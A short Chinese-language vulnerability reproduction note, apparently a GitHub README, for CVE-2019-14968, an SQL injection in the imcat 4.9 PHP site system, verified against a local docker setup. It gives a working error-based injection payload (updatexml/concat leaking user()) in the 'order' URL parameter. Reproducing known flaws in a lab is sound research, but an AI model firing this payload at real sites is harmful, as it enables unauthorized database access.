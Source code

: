 ## CVE-2019-14968 

**漏洞详情：**imcat是一套基于PHP的开源建站系统。 imcat 4.9版本中存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。



**漏洞复现：**

这里用自己写的docker环境，直接下载部署`docker-compose up -d`。之后我们还要安装：

访问：http://127.0.0.1/root/tools/setup/，之后是按照步骤安装：

![](install.png)

创建数据库，之后依次点“开始”就可以了：

![](install1.png)



安装完成之后我们用payload验证一下：

```
/index.php?sch_faqs=搜索&act=1&did=1&mkv=ajax-pick&mod=faqs%20&part=1&pid=1&sfid=&sfkw=1&sfop=&stype=&view=1&order=(updatexml(1,concat(0x7e,(user()),0x7e),1))
```

![](verify.png)





